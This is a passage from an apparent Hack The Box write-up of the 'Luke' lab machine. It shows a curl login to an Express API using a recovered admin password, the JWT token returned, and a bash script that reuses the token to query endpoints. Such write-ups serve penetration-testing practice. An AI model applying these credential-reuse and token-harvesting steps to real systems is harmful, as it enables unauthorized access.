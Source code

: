 Awesome. We have a hit with `admin` as the username.

```
# curl -i -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' -H "Content-Type: application/json" http://luke:3000/login
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 219
ETag: W/"db-1BiQjPHn0LbIIGnMLSY47tA3+6c"
Date: Sun, 02 Jun 2019 09:05:54 GMT
Connection: keep-alive

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5NDY2MzU0LCJleHAiOjE1NTk1NTI3NTR9.VKf4PAy6kRXwCYUVUoat4Heq0FRlcG3Bw2_oiL_067A"}
```

Looks like JWT has something to do with it. Armed with this insight, I wrote a simple `bash` script to test the endpoints.

<div class="filename"><span>test.sh</span></div>

```bash
#!/bin/bash

USER=admin
PASS=Zk6heYCyv6ZE9Xcg
HOST=luke
PORT=3000
WHAT=$1

TOKEN=$(curl -s \
             -d "{\"username\":\"$USER\",\"password\":\"$PASS\"}" \
             -H "Content-Type: application/json" \
             http://$HOST:$PORT/login \
        | jq . \
        | grep token \
        | cut -d':' -f2 \
        | tr -d ' "')

curl -s \
     -H "Authorization: Bearer $TOKEN" \
     "http://$HOST:$PORT/$WHAT" \
| jq .
```

Running `test.sh` without argument yields a welcome message.

<a class="image-popup">
![3d096d5d.png](/assets/images/posts/luke-htb-walkthrough/3d096d5d.png)
</a>
